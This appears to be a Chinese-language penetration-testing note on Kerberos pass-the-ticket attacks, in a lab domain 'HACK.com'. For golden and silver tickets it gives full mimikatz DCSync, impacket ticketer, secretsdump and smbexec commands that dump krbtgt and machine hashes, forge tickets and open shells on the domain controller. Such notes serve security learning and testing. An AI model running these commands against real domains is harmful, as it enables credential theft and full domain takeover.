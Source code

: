 # PTT 票据传递攻击

### 黄金票据

原理：获取 krbtgt 的哈希后，使用此哈希能离线生成任意域用户的 tgt，域管理员的 tgt 就是黄金票据。

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:HACK.com /user:HACK\krbtgt /csv" "exit"

58d7afab7f5f7ca0d4a6295ada00fd8e
```

![image-20250217144111153](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217144111153.png)

```
# 生成黄金票据
python3 ticketer.py -domain-sid S-1-5-21-2992640285-1035252920-1077850616 -nthash 58d7afab7f5f7ca0d4a6295ada00fd8e -domain HACK.com administrator
# 导入票据
export KRB5CCNAME=administrator.ccache
# 导出 administrator 用户的哈希

python3 secretsdump.py -k -no-pass administrator@DC01.HACK.com -dc-ip 192.168.72.21 -just-dc-user HACK/administrator

# 访问域控 DC01
python3 smbexec.py -no-pass -k administrator@DC01.HACK.com -dc-ip 192.168.72.21

# 访问域内主机 win10
python3 smbexec.py -no-pass -k administrator@WIN10-02.HACK.com -dc-ip 192.168.72.21 -codec gbk
```

![image-20250217144426287](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217144426287.png)

![image-20250217144921002](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217144921002.png)

![image-20250217145058108](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217145058108.png)

```
mimikatz.exe
#生成并导入黄金票据到当前内存中

kerberos::golden /user:administrator /domain:HACK.com /sid:S-1-5-21-2992640285-1035252920-1077850616 /krbtgt:58d7afab7f5f7ca0d4a6295ada00fd8e /ptt

#验证是否成功，导出指定用户哈希
lsadump::dcsync /domain:HACK.com /all /csv
```

![image-20250217145724589](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217145724589.png)

### 白银票据

原理：获取某个服务账户的哈希后，使用普通域用户访问此服务后，使用获得的哈希解密 st 服务票据，然后给 pac 添加一个高权限用户，并使用此哈希伪造 PAC_SERVER_CHECKSUM 签名。而 PAC_PRIVSVR_CHECKSUM 签名伪造需要 krbtgt 的哈希，但是此签名可选且默认不开启，直接忽视。

```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:HACK.com /user:DC01$ /csv" "exit"

32538b59408163c76f5439225907c28e
```

![image-20250217150424922](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217150424922.png)

```
#生成白银票据
python3 ticketer.py -domain-sid S-1-5-21-2992640285-1035252920-1077850616 -nthash 32538b59408163c76f5439225907c28e -spn cifs/DC01.HACK.com -domain HACK.com administrator

#导入票据
export KRB5CCNAME=administrator.ccache

#导出 administrator 用户的哈希
python3 secretsdump.py -k -no-pass administrator@DC01.HACK.com -dc-ip 192.168.72.21 -just-dc-user HACK/administrator

#访问域控 DC01
python3 smbexec.py -no-pass -k administrator@DC01.HACK.com -dc-ip 192.168.72.21
```

![image-20250217150554890](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217150554890.png)

![image-20250217150629450](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217150629450.png)